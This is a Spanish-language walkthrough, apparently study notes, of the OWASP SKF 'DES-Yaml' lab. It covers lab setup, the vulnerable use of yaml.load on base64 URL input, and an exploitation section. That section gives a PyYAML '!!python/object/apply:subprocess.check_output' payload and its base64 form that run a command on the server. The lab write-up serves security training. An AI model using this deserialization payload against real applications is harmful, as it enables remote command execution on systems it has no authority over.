





# Python – Ataque de Deserialización Yaml (DES-Yaml)


### Más info:

- Links
    
    pkmurphy - (”[https://www.pkmurphy.com.au/isityaml/](https://www.pkmurphy.com.au/isityaml/)”)
    
    techiedelight - (”[https://www.techiedelight.com/es/parse-yaml-file-python/#:~:text=Usando yaml.,load() función](https://www.techiedelight.com/es/parse-yaml-file-python/#:~:text=Usando%20yaml.,load()%20funci%C3%B3n).”)
    

## Instalación

```bash
git clone https://github.com/blabla1337/skf-labs
cd skf-labs/python/DES-Yaml
# Puede dar problamas
pip2 install pyyaml
python2.7 DES.py

# Opción alternativa
docker pull blabla1337/owasp-skf-lab:des-yaml
docker run -dit -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-yaml
```



## ¿Qué es YAML?

Al igual que JSON, YAML Ain't Markup Language (YAML) es un formato de datos que utilizan las aplicaciones para almacenar y transportar datos. YAML se considera un superconjunto de JSON.

## Análisis de código

Como se puede ver, en la URL hay una cadena en base64 y en la página se muestra un mensaje.

Al ver el código de la aplicación, se puede ver cómo al apuntar a la ruta raíz, se redirige a la ruta con el base64, luego se está decodificando la cadena que se ingrese como input en el directorio “/information/” y se almacena en la variable “yaml_file” y después se carga esta variable “yaml_file” con “yaml.load” y se almacena en la variable “content”.


Al decodificar la cadena, se ve el siguiente mensaje:



Es el mismo mensaje que se muestra en la página web.

Con esta estructura YAML, se puede crear una sentencia especialmente diseñada para que al ser deserializada e interpretada, se pueda ejecutar comandos.

### Ejemplo de uso de la librería “yaml” en python

Primero se crea un archivo con datos:



Ahora se abrirá una consola interactiva con python3 para cargar el archivo creado con YAML:

```bash
import yaml
f = open("datos.txt", "r")
f.read()

f = open("datos.txt", "r")
yaml.load(f.read())
# El "r" se usa para indicar solo lectura

# Si sale un error, se puede cargar de la siguiente manera
f = open("datos.txt", "r")
output = yaml.load(r.read())
print(output)
```



## Explotación

Como la web toma e interpreta el input que se le ingresa en la URL sin ningún tipo de sanitización, se podría aprovechar esta estructura para ingresar una cadena que permita ejecutar comandos.

```bash
# Cadena en texto plano
yaml: !!python/object/apply:subprocess.check_output ['id']

cat data | base64 -w 0; echo
eWFtbDogISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuY2hlY2tfb3V0cHV0IFsnaWQnXQo=

-w 0 # Sirve para mostrar el output en la misma línea
```



Ahora se copia la cadena en base64 y se ingresa como input en la URL:


